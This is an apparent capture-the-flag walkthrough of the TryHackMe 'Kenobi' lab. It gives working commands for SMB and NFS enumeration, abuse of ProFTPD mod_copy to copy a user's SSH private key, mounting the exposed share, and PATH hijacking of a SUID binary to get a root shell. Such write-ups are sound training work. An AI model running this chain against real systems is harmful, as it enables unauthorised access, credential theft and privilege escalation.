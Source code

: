 ```yaml
---
description: 'This is my walkthrough for the TryHackMe Room: Kenobi.'
---
```


# Kenobi

This room can be found [here](https://tryhackme.com/room/kenobi). This will be exploiting a linux machine, enumerate Samba for shares, manipulate a vulnerable version of proftpd and escalate your privileges with path variable manipulation.

I will be going through room using the attackbox

## Task 1

### Question #1: Scan the machine with nmap, how many ports are open?

`sudo nmap -sS -sV -vv -oA Kenobi 10.10.95.185`

Our results show us the answer:

![](<../.gitbook/assets/image (769).png>)

## Task 2

### Question #1: Using the nmap command above, how many shares have been found?

This asks us to run the nmap scan `nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.95.185` to find the shares.&#x20;

### Question #2: Once you're connected, list the files on the share. What is the file can you see?

We can connect to the machine via SMB with `smbclient //10.10.95.185/anonymous`.When prompted for a password, we can press enter to connect with no password.

Once we're connected we can run `ls` to see what files are there. We can download the file(s) with `smbget -R smb://10.10.95.185/anonymous`.  Again pressing enter when prompted for a password for a blank/empty password.

### Question #3: What port is FTP running on?

Refer back to our Nmap scan.

### Question #4: What mount can we see?

Running the nmap scan `nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.95.185` we can see the mount point.

## Task 3

### Question #1: What is the version?

Referring back to our Nmap scan result again we can find the ProFtpd version.

### Question #2: How many exploits are there for the ProFTPd running?

We can use [searchsploit](https://github.com/offensive-security/exploitdb) or [exploit-db](https://www.exploit-db.com/) to find the exploits. As the room states, we should have found exploit from ProFtpd's [mod\_copy module](http://www.proftpd.org/docs/contrib/mod\_copy.html). So now now we are going to copy Kenobi's private key using SITE CPFR and SITE CPTO commands.

First connect to the target via FTP with netcat with `nc 10.10.95.185 21`.

Then we `SITE CPFR /home/kenobi/.ssh/id_rsa`.

Finally `SITE CPTO /var/tmp/id_rsa`.

This does a "copy from" selecting the file name, and "copy to" selecting where you're copying the file to.

### Question #3: What is Kenobi's user flag (/home/kenobi/user.txt)?

Since we know the /var is a mount point, we can mount that to our machine and copy the files we need from there.

We can easily follow the rooms directions to create a mount point and mount the /var directory to the newly created mount point.

`mkdir /mnt/kenobiNFS`

`mount` 10.10.95.185`:/var /mnt/kenobiNFS`&#x20;

`ls -la /mnt/kenobiNFS`

Now that we have this mounted, we can go into the `tmp` directory to get the `id_rsa` file we copied to that directory. `cp /mnt/kenobiNFS/tmp/id_rda .` and then we change permissions on that file so we can use the file. `sudo chmod 600 id_rsa`. Finally we can now ssh into the machine and obtain the flag!

`ssh -i id_rsa kenobi@10.10.95.185` and after we have established a connection, `cat /home/kenobi/user.txt`.

## Task 4

We will be looking for SUID bits to able to manipulate so we can escalate to the root user.

As the room states, we can find SUID bits with `find / -perm -u=s -type f 2>/dev/null`.

### Question #1: What file looks particularly out of the ordinary?

Some of these might not jump out to new users right away, but the `/usr/bin/menu` file stands out a bit.

### Question #2: Run the binary, how many options appear?

What happens when we run the command `menu`?

![](<../.gitbook/assets/image (420).png>)

Strings is a command on Linux that looks for human readable strings on a binary. This shows us the binary is running without a full path (e.g. not using /usr/bin/curl or /usr/bin/uname). As this file runs as the root users privileges, we can manipulate our path gain a root shell.

So as the room states, we can:

`cd tmp && echo /bin/sh > curl`

`chmod 777 curl`

`export PATH=/tmp:$PATH`

`/usr/bin/menu`

So now if we type 1 for our status check we should be the root user.

This creates a file called `curl` with the contents `/bin/sh`, changed the permissions, and adds the `/tmp` directory to the path so when the "status check" is run from the `menu` command and it runs curl, it's actually running /bin/sh giving us root permissions.

### Question #3: What is the root flag (/root/root.txt)?

`cat /root/root.txt`

